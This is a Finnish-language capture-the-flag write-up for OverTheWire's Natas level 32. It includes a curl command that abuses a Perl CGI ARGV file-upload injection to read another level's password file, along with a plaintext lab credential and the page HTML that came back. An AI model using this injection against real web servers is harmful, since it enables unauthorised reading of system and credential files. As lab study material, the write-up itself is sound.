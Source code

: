Tämä on se aikaisempi komento natas31:stä, mutta pientä muutosta ja ohjeiden mukaan haettu ja testataan. tässä tapahtui siis curl mikä käyttis (`-u`) username:password, sitten nettisivuston url ja polku /etc/ josta haettaan seuraava natas33:sen salasanansa. File ARGV joka on se suorittaa ohjauksensa **PERL CGI:tä** käyttämällä komentoriviparametriä tähän tiedostoa ja haluamme kokeilla uudestaan tätä olemassa olevaa excel tauluko tiedoston upottamisen injektiota.

- URL-osoitteessa viitataan /etc/-hakemistoon ja yritetään hakea seuraavan tason (natas33) salasanaa.
- Tiedostonimessä käytetään ARGV, joka ohjaa Perl CGI -skriptiä käyttämään sitä komentoriviparametrina.
- Tarkoitus on kokeilla uudelleen tätä aikaisemmin toiminutta tiedoston upottamiseen perustuvaa injektiota, jossa käytetään valmiina olevaa Excel-muotoista CSV-tiedostoa.
  - tämän testauksen (alemman komennon) jälkeen se ei anna sitä seuraavaa natas33:sen salasanaa, mutta hyvä testata ja kokeillakin.

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B "http://natas32.natas.labs.overthewire.org/index.pl?/etc/natas_webpass/natas33" -F "file=ARGV" -F "file=@/home/kali/Downloads/Book1.csv;type=text/csv"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<!-- Bootstrap -->
<link href="bootstrap-3.3.6-dist/css/bootstrap.min.css" rel="stylesheet">
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas32", "pass": "<censored>" };</script>
<script src="sorttable.js"></script>
</head>
<script src="bootstrap-3.3.6-dist/js/bootstrap.min.js"></script>

<!-- 
    morla/10111 
    shouts to Netanel Rubin    
-->

<style>
#content {
    width: 900px;
}
.btn-file {
    position: relative;
    overflow: hidden;
}
.btn-file input[type=file] {
    position: absolute;
    top: 0;
    right: 0;
    min-width: 100%;
    min-height: 100%;
    font-size: 100px;
    text-align: right;
    filter: alpha(opacity=0);
    opacity: 0;
    outline: none;
    background: white;
    cursor: inherit;
    display: block;
}
```